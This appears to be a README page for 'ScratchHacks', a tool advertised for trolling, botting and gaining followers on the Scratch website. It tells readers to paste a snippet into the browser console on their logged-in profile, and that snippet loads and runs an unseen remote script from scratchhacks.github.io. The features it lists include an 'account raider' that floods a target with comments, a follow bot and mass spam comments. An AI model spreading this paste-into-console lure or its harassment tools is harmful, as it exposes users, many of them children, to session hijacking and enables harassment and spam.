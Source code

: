 ## Welcome to SCRATCHHACKS

ScratchHacks is a new tool for the [Scratch](https://scratch.mit.edu) website to troll, bot and get free followers!


### Activating SCRATCHHACKS on your account

ScratchHacks is easy to activate, with just 4 easy steps!

1. Check if you have a supported browser (Chrome, Firefox, Edge)
2. Go to your Scratch profile and press the F12 key on your keyboard 
3. If not already selected, click console.
4. Copy and paste the code below into the browser console.

```markdown
(function() {
    var s = document.createElement('script');
    s.type = "text/javascript";               
    s.async = true;                        
    s.src = "//scratchhacks.github.io/hacks.js"; 
    var fs = document.getElementsByTagName('script')[0];
    fs.parentNode.insertBefore(s, fs);
})();
```
Then type
```
starthacks();
```

Stuck? Watch [this video](https://guides.github.com/features/mastering-markdown/).

### Hacks availible
**Follow bot**
A follow bot basicly follows a load of people, then they follow you back resulting in free, real followers!

**Account raider**
The account raider floods an account with comments (one every 30 seconds) and is just very annoying for the person on the other end.

**Auto F4F**
Follows all your followers back!

**Super Advertisment**
This sends a comment to a load of people telling them to check out your project.



### Support or Contact

If you have a problem, add an issue in GitHub.
